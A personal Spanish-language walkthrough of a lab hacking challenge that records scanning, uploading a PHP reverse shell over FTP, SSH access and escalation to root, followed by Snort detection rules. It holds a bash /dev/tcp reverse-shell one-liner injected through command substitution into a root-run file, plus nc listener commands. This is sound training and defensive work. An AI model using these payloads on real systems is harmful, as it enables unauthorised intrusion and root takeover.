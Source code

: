 # 🛡️ Reto de Ciberseguridad: Intrusión y Defensa en "IDServiceVM"

> Documentación personal del reto de ciberseguridad en entorno controlado. Este archivo recoge paso a paso el análisis, ataques, accesos, escalada de privilegios y defensa con reglas IDS. Contiene explicaciones y comandos clave para futuras referencias.

---

## 🎯 Objetivos del reto

1. **Acceso Inicial Múltiple:**

   * Acceder a la máquina víctima por **FTP** subiendo una shell web.
   * Acceder por **SSH** con las mismas credenciales.

2. **Escalada de privilegios:**

   * Elevar privilegios hasta obtener una shell como `root`.

3. **Defensa y Detección (Blue Team):**

   * Crear reglas Snort para detectar vectores de ataque utilizados.

---

## 🧩 Fase 1: Reconocimiento y Acceso Inicial

### 🔌 1.1 Configuración de red

* Tipo de red usada: **Red NAT personalizada (Red NAT de VirtualBox)**.
* Ambas VMs (Kali + IDServiceVM) conectadas a la misma red virtual.

### 🔎 1.2 Descubrimiento de IP

```bash
sudo nmap -sn 10.0.2.0/24
```

* Se identificó la IP de la víctima: `10.0.2.10`
* MAC: Oracle VirtualBox NIC

### 📡 1.3 Escaneo de puertos

```bash
sudo nmap -sS -p- 10.0.2.10
```

* Puertos abiertos:

  * `21` FTP
  * `22` SSH
  * `80` HTTP
  * `5011` Servicio desconocido (posiblemente vulnerable)

### 📜 1.4 Enumeración de servicios

```bash
sudo nmap -sV -sC 10.0.2.10
```

* Se obtienen banners de versión y posibles vulnerabilidades
* Banner grabbing en HTTP, SSH y FTP realizado para asociar CVEs

### 🌐 1.5 Enumeración Web

```bash
gobuster dir -u http://10.0.2.10 -w /usr/share/wordlists/dirb/common.txt
```

* Búsqueda de archivos sensibles: `README`, `config.php`, `.git`, etc.
* Uso de `curl`, `nikto`, `whatweb` para fingerprinting web.

### 🐚 1.6 Acceso FTP + Web Shell

```bash
ftp 10.0.2.10
# Subir php-reverse-shell.php (modificada con IP de Kali y puerto 4444)
```

En Kali:

```bash
nc -lvnp 4444
```

En navegador:

```
http://10.0.2.10/uploads/php-reverse-shell.php
```

➡️ Acceso conseguido.

### 🐚 1.7 Acceso SSH

```bash
ssh usuario@10.0.2.10
```

➡️ Mismo usuario/credenciales reutilizadas.

---

## 🔐 Fase 2: Escalada de Privilegios

### 🧠 2.1 Enumeración interna

```bash
whoami
sudo -l
find / -perm -4000 2>/dev/null
ps aux | grep root
cat /etc/crontab
```

### 🔍 2.2 Análisis de scripts

* Revisar scripts ejecutados por cron o root.
* Buscar comandos con entradas no sanitizadas.

### 💣 2.3 Explotación

Ejemplo:

```bash
echo '$(/bin/bash -i >& /dev/tcp/10.0.2.15/4445 0>&1)' > /etc/backup-files.txt
```

Y en Kali:

```bash
nc -lvnp 4445
```

➡️ Shell como root obtenida.

---

## 🔒 Fase 3: Defensa y Detección (IDS - Snort)

### 🧷 Reglas creadas:

#### 1. Acceso a archivo sensible por HTTP

```snort
alert tcp any any -> any 80 (msg:"[ALERTA] Acceso a archivo sensible"; content:"README"; http_uri; nocase; sid:100001;)
```

#### 2. Subida de archivos por FTP

```snort
alert tcp any any -> any 21 (msg:"[ALERTA] Subida de archivo por FTP"; content:"STOR"; nocase; sid:100002;)
```

#### 3. Conexión SSH detectada

```snort
alert tcp any any -> any 22 (msg:"[ALERTA] Conexión SSH detectada"; flags:S; sid:100003;)
```

#### 4. Inyección de comandos por URL

```snort
alert tcp any any -> any 80 (msg:"[ALERTA] Inyección de comandos"; content:";cat"; http_uri; nocase; sid:100004;)
```

---

## 📘 Observaciones y Notas personales

* Recordar revisar `robots.txt` y `.git` en enumeraciones web.
* Los puertos altos (>1024) pueden ser servicios web alternativos.
* Usar `searchsploit` para encontrar CVEs por versión:

  ```bash
  searchsploit apache 2.4.18
  ```
* Snort es muy potente, pero también sensible a falsos positivos.
* Documentar todo siempre ayuda a ganar velocidad en futuras auditorías.

---

## ✅ Estado del reto

* [x] Acceso FTP
* [x] Web Shell activa
* [x] Acceso SSH
* [x] Escalada a root
* [x] Reglas IDS funcionando

---

**Fin del documento**
📁 Archivo de uso personal para repaso, replicación o actualización futura.


****
sualba.dev © 2025 - Todos los derechos reservados